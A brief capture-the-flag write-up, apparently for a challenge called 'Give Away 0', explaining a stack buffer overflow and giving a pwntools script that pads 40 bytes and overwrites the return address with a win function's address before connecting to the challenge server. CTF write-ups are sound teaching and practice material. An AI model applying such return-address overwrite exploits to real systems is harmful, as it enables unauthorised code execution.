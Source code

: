 # Give Away 0

It's a simple buffer overlow

We just take the address of the win_function (0x4006a7) and find the distance between the buffer and the return address (40).

```
from pwn import *
padding = "A".encode()*40 + p64(0x0000004006a7)
print(padding)
r = remote('sharkyctf.xyz', 20333)
r.sendline(padding)
r.interactive()
```
